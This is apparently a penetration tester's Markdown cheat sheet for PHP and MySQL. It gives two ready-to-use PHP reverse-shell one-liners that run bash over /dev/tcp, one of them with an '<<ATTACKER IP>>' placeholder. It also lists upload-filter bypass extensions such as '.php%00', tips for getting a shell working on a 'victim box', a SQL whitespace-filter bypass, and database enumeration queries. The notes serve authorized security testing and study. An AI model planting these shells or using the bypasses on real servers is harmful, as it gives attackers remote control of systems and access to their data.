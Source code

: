 # Summary
* [PHP](##PHP)
* [MySQL](##MySQL)

## PHP
* Turn on logging
```
// Uncomment the following line to /etc/php5/apache2/php.ini
$ sudo vi /etc/php5/apache2/php.ini
display_errors = On

// Restart the apache service 
sudo systemctl restart apache2
```

### PHP Shells
* User Supplied IP and Port
```php
<?php $ip=$_GET['ip']; $port=$_GET['port']; $string = \"/bin/bash -c 'bash -i >& /dev/tcp/\".$ip.\"/\".$port.\" 0>&1'\"; exec($string); ?>
```
* Hardcoded IP and Port
```php
<?php exec(\'/bin/bash -c \"bash -i >& /dev/tcp/<<ATTACKER IP>>/<<PORT>> 0>&1\"\'); ?>
```

### Extensions
* .phtml 
* .PHP
* .php;.txt
* .php%00

### Tips for troubleshooting reverse shell
* ssh into victim box and test out bash command 
* Run php from the box directly
```
$ php -f phpshell.php
```
* Attempt port 443
* Try a different shell
* Confirm OS (Linux or Windows)

## MySQL
* Turn on logging
```
// Uncomment the following line in /etc/mysql/my.cnf
$ sudo nano /etc/mysql/my.cnf
general_log_file = /var/log/mysql/mysql.log

// Restart mysql
$ sudo systemctl restart mysql

// Review log file
$ sudo tail -f /var/log/mysql/mysql.log
```
* Logging in
```
mysql -uroot -p
```
* Alternative to space 
```
/**/
```
* Get MySQL version
```
select version();
```
* [Common Queries](https://github.com/sqlmapproject/sqlmap/blob/c9ab8ae60e06ca3cd53f1ea80f79bcb65387cef9/xml/queries.xml)
* Finding and pulling a specific value
```
mysql> show databases;
mysql> use [database_name];
mysql> show tables;
mysql> describe [table_name];
mysql> select [table_column] from [database_name].[table_name] LIMIT 0,1;
```